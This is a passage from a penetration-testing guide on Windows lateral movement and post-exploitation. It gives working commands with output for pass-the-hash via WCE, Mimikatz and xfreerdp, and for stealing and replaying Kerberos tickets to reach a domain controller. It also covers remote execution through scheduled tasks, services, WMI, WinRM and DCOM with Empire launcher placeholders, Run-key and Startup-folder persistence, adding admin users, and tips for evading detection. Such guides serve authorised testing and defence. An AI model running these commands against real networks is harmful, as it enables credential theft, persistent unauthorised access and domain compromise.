  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.

  Changing NTLM credentials of current logon session (00024E1Bh) to:
  Username: testuser
  domain: amplialabs
  LMHash: 01FC5A6BE7BC6929AAD3B435B51404EE
  NTHash: 0CB6948805F797BF2A82807973B89537
  NTLM credentials successfully changed!


  C:\Users\test> 

 
* Run PSExec normally

 ::

  psexec \\remotecomputer <commandname>

 If you omit a user name, the process will run in the context of your account on the remote system, but will not have access to network resources (because it is impersonating). Specify a valid user name in the Domain\User syntax if the remote process requires access to network resources or to run in a different account. Since, we are omitting the username, it would run in the context of the current username ( The one we have changed with the help of WCE )


Task Scheduler
--------------

If you are the administrator of the remote machine and using runas /netonly, we can utilize AT to run commands remotely. Using AT, a command to be run at designated time(s) as SYSTEM.

Examples
^^^^^^^^

::

 AT \\REMOTECOMPUTERNAME 12:34 "command to run"

::

 AT \\REMOTECOMPUTERNAME 12:34 cmd.exe \c "command to run"
 
 "command to run" can be web-delivery string or powershell empire string.

If we need to delete the AT jobs, we can use

::

 AT \\REMOTECOMPUTERNAME id /delete /yes

However, sometimes doing it remotely, we need to figure out the time of the remote computer, we can utilize NET TIME

::

 NET TIME \\REMOTECOMPUTERNAME

Scheduled Tasks
---------------

`Schtasks <https://technet.microsoft.com/en-us/library/cc725744(v=ws.11).aspx>`_ Schedules commands and programs to run periodically or at a specific time. Adds and removes tasks from the schedule, starts and stops tasks on demand, and displays and changes scheduled tasks. Schtasks replaces At.exe, a tool included in previous versions of Windows. Although At.exe is still included in the Windows Server 2003 family, schtasks is the recommended command-line task scheduling tool.

::

 schtasks /create /sc <ScheduleType> /tn <TaskName> /tr <TaskRun> [/s <Computer> [/u [<Domain>\]<User> [/p <Password>]]] [/ru {[<Domain>\]<User> | System}] [/rp <Password>] [/mo <Modifier>] [/d <Day>[,<Day>...] | *] [/m <Month>[,<Month>...]] [/i <IdleTime>] [/st <StartTime>] [/ri <Interval>] [{/et <EndTime> | /du <Duration>} [/k]] [/sd <StartDate>] [/ed <EndDate>] [/it] [/z] [/f]

 /sc <ScheduleType>               : Specifies the schedule type. Valid values are MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE.
 /tn <TaskName>                   : Specifies a name for the task. 
 /tr <TaskRun>                    : Specifies the program or command that the task runs. Type the fully qualified path and file name of an executable file, script file, or batch file. If you omit the path, schtasks assumes that the file is in the SystemRoot\System32 directory.
 /s <Computer>                    : Schedules a task on the specified remote computer. Type the name or IP address of a remote computer (with or without backslashes). The default is the local computer.
 /u [<Domain>\]<User>             : Runs this command with the permissions of the specified user account. The default is the permissions of the current user of the local computer. 
 /p <Password>                    : Provides the password for the user account specified in the /u parameter. If you use the /u parameter, but omit the /p parameter or the password argument, schtasks prompts you for a password and obscures the text you type
 /ru {[<Domain>\]<User> | System} : Runs the task with permissions of the specified user account. By default, the task runs with the permissions of the current user of the local computer, or with the permission of the user specified by the /u parameter, if one is included. The /ru parameter is valid when scheduling tasks on local or remote computers.
 /rp <Password>                   : Provides the password for the user account that is specified in the /ru parameter. If you omit this parameter when specifying a user account, SchTasks.exe prompts you for the password and obscures the text you type. Do not use the /rp parameter for tasks run with System account credentials (/ru System). The System account does not have a password and SchTasks.exe does not prompt for one.


Examples
^^^^^^^^

* Create new task and execute it

 ::

   schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
   schtasks /run /tn foobar /S host

* Delete the task after it is executed

 ::

  schtasks /F /delete /tn foobar /S host


Service Controller (SC)
-----------------------

Communicates with the Service Controller and installed services. SC.exe retrieves and sets control information about services. Armitage Hacker has mentioned this at his blog `Lateral Movement with High Latency <https://blog.cobaltstrike.com/2014/04/30/lateral-movement-with-high-latency-cc/>`_ 

Create a new service
^^^^^^^^^^^^^^^^^^^^

Create a new service named foobar

::

  sc \\host create foobar binpath= “c:\windows\temp\foobar.exe”

Start the service
^^^^^^^^^^^^^^^^^

::

  sc \\host start foobar


The sc command requires an executable that responds to Service Control Manager commands. If you do not provide such an executable, your program will run, and then immediately exit. 

Delete the service
^^^^^^^^^^^^^^^^^^

Delete the service after it runs 

::

  sc \\host delete foobar

Remote Registry
---------------

A command to be run or DLL to be loaded when specific events occur, such as boot or login or process execution, as active user or SYSTEM.

**Examples**

Add an entry
^^^^^^^^^^^^

::

 REG ADD \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry /t REG_SZ /d "command to run"
 
Command will run every time a user logs in as the user.

Query the remote registry
^^^^^^^^^^^^^^^^^^^^^^^^^

::

 REG QUERY \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry

Delete the remote registry
^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 REG DELETE \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry


Remote File Access
------------------

We can copy a launcher.bat file with powershell empire and drop it Startup folder, so that it executes every time a user logs in as a user.

Example
^^^^^^^

::

 xcopy executabletorun.exe "\\REMOTECOMPUTERNAME\C$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\launcher.bat"

WinRM
-----

Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilizing WMI, it can be thought of as an HTTP based API for WMI. WinRM will listen on one of two ports: 5985/tcp (HTTP) and 5986/tcp (HTTPS)

If one of these ports is open, WinRM is configured and you can try entering a remote session.

Enabling PS-Remoting
^^^^^^^^^^^^^^^^^^^^
 
Configure the remote machine to work with WinRM. We need to run the below command from elevated powershell prompt 

::

  PS C:\Windows\system32> Enable-PSRemoting -Force
  WinRM already is set up to receive requests on this machine.
  WinRM has been updated for remote management.
  Created a WinRM listener on HTTP://* to accept WS-Man requests to any IP on this machine.
  WinRM firewall exception enabled.

Testing the WinRM Connection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

We can use the Test-WSMan function to check if target is configured for WinRM. It should return information returned about the protocol version and wsmid

:: 

  PS C:\> Test-WSMan XXXX-APPS03.example.com
  wsmid           : http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd
  ProtocolVersion : http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd
  ProductVendor   : Microsoft Corporation
  ProductVersion  : OS: 0.0.0 SP: 0.0 Stack: 2.0

Adding Trusted Host in WinRM
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Add Winrm Trusted Host in Windows 

::

 winrm set winrm/config/client @{TrustedHosts="RemoteComputerName"}

PowerShell Invoke-Command
^^^^^^^^^^^^^^^^^^^^^^^^^ 

Execute commands using Powershell Invoke-Command on the target over WinRM. 

:: 

  PS C:\> Invoke-Command -ComputerName XXXX-APPS03.xxx.example.com -ScriptBlock {ipconfig /all}

  Windows IP Configuration

   Host Name . . . . . . . . . . . . : XXXX-Apps03
   Primary Dns Suffix  . . . . . . . : xxx.example.com
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : xxx.example.com
                                       example.com

Interactive PowerShell session
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  PS C:\> Enter-PSSession -ComputerName XXXX-APPS03.xxx.example.com
  [XXXX-APPS03.xxx.example.com]: PS C:\Users\dummyuser\Documents> whoami
  example.com\dummyuser

The above commands are executed using runas /netonly if you want to run it with the credentials we can use 

:: 

 -credential domainname\username switch

Disable Powershell Remoting
^^^^^^^^^^^^^^^^^^^^^^^^^^^

Also, if you want to disable the psremoting/ WinRM, you can utilize `Disable-PSRemoting <https://msdn.microsoft.com/en-us/powershell/reference/4.0/microsoft.powershell.core/disable-psremoting>`_ . However, if you get

::

 PS C:\Windows\system32> Disable-PSRemoting
 WARNING: Disabling the session configurations does not undo all the changes made by the Enable-PSRemoting or
 Enable-PSSessionConfiguration cmdlet. You might have to manually undo the changes by following these steps.
     1. Stop and disable the WinRM service.
     2. Delete the listener that accepts requests on any IP address.
     3. Disable the firewall exceptions for WS-Management communications.
     4. Restore the value of the LocalAccountTokenFilterPolicy to 0, which restricts remote access to members of the Administrators group on the computer.

then follow the `How to revert changes made by Enable-PSRemoting? <https://blogs.technet.microsoft.com/bshukla/2011/04/27/how-to-revert-changes-made-by-enable-psremoting/>`_

Scott Sutherland has written `PowerShell Remoting Cheatsheet <https://blog.netspi.com/powershell-remoting-cheatsheet/>`_ which can be referred too.

WMI
---

As per the TechNet article `Windows Management Instrumentation <https://msdn.microsoft.com/en-us/library/aa394582(v=vs.85).aspx>`_ (WMI) is the infrastructure for management data and operations on Windows-based operating systems. You can write WMI scripts or applications to automate administrative tasks on remote computers.

Local code execution
^^^^^^^^^^^^^^^^^^^^

WMI Process Create: The Win32_Process class can be called via WMI to query, modify, terminate, and create running processes.

::
  
  wmic path win32_process call create "calc.exe"
  Executing (win32_process)->create()
  Method execution successful.
  Out Parameters:
  instance of __PARAMETERS
  {
        ProcessId = 2616;
        ReturnValue = 0;
  };

The command returns the ProcessID and the ReturnValue (0 abcning no errors)

Remote code execution
^^^^^^^^^^^^^^^^^^^^^

We can use runas command to authenticate as a different user and then execute commands using wmic or use

::

  wmic /node:computername /user:domainname\username path win32_process call create "**empire launcher string here**"

instead of computername, we can specify textfile containing computernames and specify using wmic /node:@textfile

Refer Rop-Nop blog `Part3: Wmi and winrm <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/>`_

DCOM 
----

The below is as per my understanding (I might be wrong), if so, please do correct me. After reading `Lateral Movement Using the MMC20.Application COM Object <https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/>`_ and `Lateral Movement Via DCOM Round 2 <https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/>`_ I believe there are three ways to do lateral movement by using DCOM

DCOM applications via MMC Application Class (MMC20.Application)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This COM object allows you to script components of MMC snap-in operations. there is a method named “ExecuteShellCommand” under Document.ActiveView.

::

  PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","IPAddress"))
  PS C:\> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)

For Empire

::

  $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc DFDFSFSFSFSFSFSFSDFSFSF < Empire encoded string > ","7")

Tanoy has written a simple wrapper/ function `Invoke-MMC20RCE.ps1 <https://raw.githubusercontent.com/n0tty/powershellery/master/Invoke-MMC20RCE.ps1>`_ which might be useful.

DCOM via ShellExecute
^^^^^^^^^^^^^^^^^^^^^

::

  $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  $item = $obj.Item()
  $item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
  ^ The above should run a calc

DCOM via ShellBrowserWindow
^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. Note ::  Windows 10 Only, the object doesn't exists in Windows 7

::

  $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  $obj.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
  ^ The above should run a calc


All the above three method, assumes that either you are running the commands as administrator of the remote machine. And you have achieved it either by using runas /netonly or logging in as that user.


While executing the above if you get the below error, it means, we do not have access to execute object remotely which results in “Access Denied”:

::

  $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  Exception calling "CreateInstance" with "1" arguement(s) "Retrieving the COM class factory for remote component with CLSID {} from machine IPAddress failed due to the following error 80070005.

  At line:1 char:1
  + $obj = [System.Activator]::CreateInstance($com)
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    +CategoryInfo             : NotSpecified: (:), MethodInvocationException
    +FullyQualifiedErrorID    : UnauthorizedAccessException


Mimikatz PTH/ PTT
-----------------

Microsoft `Advanced Threat Analytics Attack Simulation Playbook <https://gallery.technet.microsoft.com/Advanced-Threat-Analytics-8b0a86bc>`_ has provided examples for Mimikatz PTH, PTT. 

If we do not have plaintext credentials, we can use NTLM hashes to get a shell

Pass the Hash
^^^^^^^^^^^^^

Using a technique called Overpass-the-Hash we can take the NTLM hash and use it to obtain a Ticket Granting Ticket (TGT) via Kerberos\\ Active Directory. With a TGT you can masquerade as the administrative user and access any domain resource that admin user has access to. 

::

  Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:[username] /ntlm:[ntlm hash] /domain:[domainname]” “exit”

A new command prompt session opens. This new command prompt injected Admin user credentials into it!

This can be verified by checking 
 
* If we have access to the C drive of the remote machine

 ::

  dir \\remote-machine\c$

* Inspect tickets in Overpass-the-hash command prompt: From the new command prompt that opened from the Overpass-the-hash attack, execute the following:

 :: 

  klist

We should be able to see the ticket of the admin user.
 

Pass the ticket
^^^^^^^^^^^^^^^

Let's assume, we got credentials of Local Admin A, by which we can login in to the machine on which Domain Admin is logged on. We would utilize pass the ticket for this

* Harvest Credentials

* Execute Mimikatz against Admin-PC ( on which domain admin is logged on )

 From the new command prompt, running in the context of admin user, go to the part of the filesystem where Mimikatz is located from that library. Run the following commands:

 ::

   xcopy mimikatz \\admin-pc\c$\temp
  
 Next, execute MimiKatz remotely to export all Kerberos tickets from Admin-PC:

 ::
   
   psexec.exe \\admin-pc -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug”   “sekurlsa::tickets /export” ^& “exit”)

 Copy these tickets back to Victim-PC:

 ::

   xcopy \\admin-pc\c$\temp c:\temp\tickets


 We successfully executed Mimikatz remotely, exporting all Kerberos tickets from Admin-PC. We copied back the results to Victim-PC, and now has one of the Domain Admin credentials without having to exploit his computer!

* Locate the Domain Admin user TGT
    
 Locate the kirbi files which are not Domain Admin user (i.e. “ADMIN-PC$”). Delete those and keep the Domain Admin user tickets.  

* Pass-the-Ticket

 We can pass the Domain Admin User tickets, literally, into memory and use them to gain access to resources as if you were Domain Admin. The attacker is ready to import them into Victim-PC’s memory, to get the credentials to access sensitive resources.

 From an elevated command prompt, where Mimikatz is located on the filesystem, execute the following:

 ::
        
   mimikatz.exe “privilege::debug” “kerberos::ptt c:\temp\tickets” “exit”

 Ensure that the DomainAdminUser@krbtgt-Domainname tickets were successfully imported. Now, let’s validate that the right tickets are in the command prompt session.

* Validate the ticket was imported

 Execute the following in the same elevated command prompt:

 :: 

   klist

 The attacker now successfully imported the harvested ticket into the session, and will now leverage their new privilege and access to access the domain controller’s C drive

* Access contents of dc1\c$ with DomainAdminUser credential

 Execute the following in the same command prompt to which the tickets were just imported.

 ::

    dir \\dc1\c$

 The attacker is now, for all intents and purposes, DomainAdminUser, in the digital world. Only administrators should be able to access the root of the domain controller. The attacker is using legitimate credentials, can access legitimate resources and executing legitimate executables.


xfreerdp/ Remote Desktop
------------------------

rdesktop
^^^^^^^^

::

  rdesktop IPAddress

Remote Desktop with 90% Screen

::

 rdesktop -g 90% 
 rdesktop -f : for Full screen. Fullscreen mode can be toggled at any time using Ctrl-Alt-Enter.

Pass the Hash with Remote Desktop
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have a hash of a user, we can use xfreerdp to have remote desktop

::

  xfreerdp /u:user /d:domain /pth:hash /v:IPAddress

More information refer `Passing the Hash with Remote Desktop <https://www.kali.org/penetration-testing/passing-hash-remote-desktop/>`_ 


.. Todo ::

   ----dsquery !! SubMSI ? MSUtil to use RCE?
   ----Any commands if net, or powershell is blocked? or PV/ BH is caught? 

.. _useful-stuff:

Useful Stuff
============

Add/ remove/ a local user
-------------------------

:: 

 net user /add [username] [password]

::

 net user John xxxxxxxxx /ADD

 C:\>net user /add John *
 Type a password for the user: 
 Retype the password to confirm:
 The command completed successfully.

Add a domain user
-----------------

::

 net user username password /ADD /DOMAIN

Add / remove a local user to administrator group
------------------------------------------------

::

 net localgroup administrators [username] /add

Change local user password
^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 net user username newpassword

Accessing Remote machines
--------------------------

Windows
^^^^^^^

Setup an SMB connection with a host

::
 
  PS C:\> net use \\DC.xxxxxxxx.net
  The command completed successfully.

Check for access to admin shares ("C$", or "ADMIN$"), if we are admin:

::

  PS C:\> dir \\DC.xxxxxxxxxx.net\C$\Users

  Directory: \\DC.xxxxxxxx.net\C$\Users 
  
  Mode                LastWriteTime     Length Name
  ----                -------------     ------ ----
  d----        20.11.2016     09:35            axx.xxxxxx
  d----        21.11.2010     06:47            Administrator
  d-r--        14.07.2009     06:57            Public  


If we are not admin, we might get access denied:

::

  PS C:\> dir \\DC.xxxxxxxxxx.net\C$\Users
  Access is denied.
  
Check your net connections: 

::
 
  PS C:> net use
  New connections will be remembered.  
  
  Status       Local     Remote                    Network 
  
  -------------------------------------------------------------------------------
  OK                     \\DC.xxxxxxxx.net\IPC$   Microsoft Windows Network
  The command completed successfully.
 
However, if administrator on DC.xxxxx.net runs a net session command, the connections would be detected. For that issue 

::
 
  net use /delete *
 
On windows, after running this, if we execute
 
::
 
  //IPAddress/C$

we should be able to view the directory via windows explorer.

Linux
^^^^^

smbclient: We can use smbclient to access the remote computer file-system.

:: 
   
   smbclient -L hostname -U domainname\\username

   -L|--list This option allows you to look at what services are available on a server. You use it as smbclient -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


The below will drop you in to command line

::

  smbclient \\\\hostname\\C$ -U domainname\\username
  (After entering the password)

  smb: \> ls
  smb: \> ls
  $Recycle.Bin                      DHS        0  Wed Nov 30 20:00:40 2016
  .rnd                                A     1024  Mon Jul 27 13:51:24 2015
  Boot                              DHS        0  Mon Jul 27 14:16:53 2015
  bootmgr                          AHSR   333257  Sat Apr 11 21:42:12 2009
  BOOTSECT.BAK                      ASR     8192  Wed Jul 21 09:01:52 2010
  Certificate                         D        0  Sun Jun 23 17:20:48 2013
  Config.Msi                        DHS        0  Thu Feb 16 01:49:59 2017
  cpqsprt.trace                       A     8004  Wed Jul 21 08:59:57 2010
  cpqsystem                           D        0  Wed Jul 21 08:32:58 2010
  csv.err                             A       90  Sun May 20 15:35:38 2012
  csv.log                             A      278  Sun May 20 15:35:38 2012
  Documents and Settings            DHS        0  Sat Jan 19 19:53:20 2008
  Program Files                      DR        0  Thu Sep  8 16:24:36 2016
  Program Files (x86)                DR        0  Tue Nov 22 21:28:01 2016
  ProgramData                        DH        0  Thu Feb  9 16:51:52 2017
  Rename.bat                          A     1406  Wed Oct 26 15:11:19 2011
  System Volume Information         DHS        0  Thu Feb 16 01:49:56 2017
  temp                                D        0  Fri Aug  9 17:16:55 2013
  Users                              DR        0  Wed Nov 30 20:00:08 2016
  Windows                             D        0  Wed Feb 15 23:18:12 2017

**Recursively download a directory using smbclient?**

::

    smbclient '\\server\share'
    mask ""
    recurse ON
    prompt OFF
    cd 'path\to\remote\dir'
    lcd '~/path/to/download/to/'
    mget *

or mount the share directly

::

 mount -t cifs -o username=<share user>,password=<share password>,domain=example.com //WIN_PC_IP/<share name> /mnt

.. _appendix-I-interesting-stories:

Appendix-I : Interesting Stories
================================

Targeting Domain Administrator!
-------------------------------

* RastaMouse talks about his experiences in a blog on `PSExec Much? <https://rastamouse.me/2017/06/psexec-much/>`_ Here he starts with a domain user and make his way to Domain Administrator account utilizing Powerview/ Invoke-LoginPrompt.

* Sean Metcalf has written a awesome blog on `Attack Methods for Gaining Domain Admin Rights in Active Directory <https://adsecurity.org/?p=2362>`_

* Fuzzy Security has written a amazing blog showing the journey of Local Administrator to a Domain User to Domain Administrator in his blog `Windows Domains, Pivot & Profit <http://www.fuzzysecurity.com/tutorials/25.html>`_

* Nikhil SamratAshok Mittal has written a blog on `Getting Domain Admin with Kerberos Unconstrained Delegation <http://www.labofapenetrationtester.com/2016/02/getting-domain-admin-with-kerberos-unconstrained-delegation.html>`_ Sean Metcalf has written `Active Directory Security Risk #101: Kerberos Unconstrained Delegation (or How Compromise of a Single Server Can Compromise the Domain) <https://adsecurity.org/?p=1667>`_


Others
------

* Identify High Risk Windows Assets : Scott Sutherland writes a powershell way and `A Faster Way to Identify High Risk Windows Assets <https://blog.netspi.com/a-faster-way-to-identify-high-risk-windows-assets>`_ Active Directory stores the operating system version and service pack level for every Windows system associated with the domain.  The information can be used during penetration tests to target systems missing patches like MS08-67, or identification of high risk assets.

* `Windows Exploit Suggestor <https://github.com/GDSSecurity/Windows-Exploit-Suggester>`_ tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.

SMBRelay
^^^^^^^^

* Scott Sutherland has written `Executing SMB Relay Attacks via SQL Server using Metasploit <https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/>`_

* To lure the victim, so that they give their hashes for cracking/ relaying Karl Fosaaen has written a blog on `10 Places to Stick Your UNC Path <https://blog.netspi.com/10-places-to-stick-your-unc-path/>`_

* By default PowerShell is configured to prevent the execution of PowerShell scripts on Windows systems which can be a hurdle for penetration testers, sysadmins, and developers. Scott Sutherland has written `15 Ways to Bypass the PowerShell Execution Policy <https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/>`_

Windows Privilege Escalation
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* `Windows Privilege Escalation Part 1: Local Administrator Privileges <https://blog.netspi.com/windows-privilege-escalation-part-1-local-administrator-privileges/>`_

* `Windows Privilege Escalation Part 2: Domain Admin Privileges <https://blog.netspi.com/windows-privilege-escalation-part-2-domain-admin-privileges/>`_

* `5 Ways to Find Systems Running Domain Admin Processes <https://blog.netspi.com/5-ways-to-find-systems-running-domain-admin-processes/>`_

Changelog
=========
.. git_changelog::
  :filename_filter: docs/LFF-IPS-P3-Exploitation.rst
  :hide_date: false

.. disqus::
